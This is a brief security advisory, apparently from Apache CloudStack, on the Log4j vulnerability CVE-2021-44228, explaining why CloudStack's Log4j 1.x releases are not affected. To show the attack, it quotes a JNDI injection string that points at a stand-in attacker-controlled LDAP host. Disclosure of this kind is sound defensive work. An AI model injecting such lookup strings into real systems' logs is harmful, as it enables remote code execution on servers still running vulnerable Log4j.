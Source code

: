 ```yaml
---
layout: post
title: CloudStack Advisory on Apache Log4j Zero Day (CVE-2021-44228)
date: '2021-12-13T11:12:50+00:00'
categories: cloudstack
---
```

On 9th December 2021, a new zero-day vulnerability for Apache Log4j was reported. It is by now tracked under CVE-2021-44228:
<a href="https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-44228">https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-44228</a>.

CVE-2021-44228 vulnerability is classified under the highest severity mark and allows an attacker to execute arbitrary code by injecting a sub-string in the form "${jndi:ldap://some.attacker-controlled.site/}" into a logged message. Apache Log4j 2.x is reported to be affected as it performs a lookup (string substitution) using the JNDI protocol, whenever the "${jndi:...}" string is found within a message parameter.

The Apache <a href="https://github.com/apache/logging-log4j2/pull/608#issuecomment-990494126">Log4j developers</a> and the <a href="http://slf4j.org/log4shell.html">SLF4J project advisory</a> confirm that Apache Log4j 1.x does not offer a look-up mechanism and does not suffer remote code execution (RCE) vulnerability from CVE-2021-44228.

All Apache CloudStack releases since v4.6 use Apache Log4j version 1.2.17 and therefore are not affected by this RCE vulnerability. Most users who haven't changed the default log4j xml config don't need to do anything, advanced users can check and fix their log4j xml configuration if they're using any custom JMS appenders.

The Apache CloudStack project will consider migrating to a different version of Apache Log4j in future releases.
